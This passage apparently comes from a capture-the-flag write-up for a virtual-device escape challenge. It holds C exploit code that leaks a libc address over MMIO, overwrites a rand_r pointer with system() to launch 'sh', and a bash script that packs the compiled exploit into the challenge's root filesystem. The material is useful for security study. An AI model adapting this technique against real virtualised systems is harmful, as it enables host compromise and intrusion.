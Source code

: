 ```C

    mmio_write(128, 0x100);
    libc_addr = mmio_read(4);
    libc_addr = libc_addr - 0x460a0; // srandom offset
    printf("libc_addr: %#lx\n", libc_addr);
    system_addr = libc_addr + 0x50d70;
    //让magic的值为666
    pmio_write(0, 666);
    pmio_read(0);
    //覆盖rand_r为system，任意函数执行
    pmio_write(20, system_addr);

    mmio_write(64, 0x6873);

    return 0;
}
```

```bash
mkdir exp
cp ./bin/rootfs.img ./exp/
cd exp
cpio -idmv < ./rootfs.img

mkdir root
cp ../exp.c ./root/
gcc ./root/exp.c -o ./root/exp -static 
find . | cpio -o --format=newc > rootfs.img
cp rootfs.img /home/zp9080/attachment/bin
```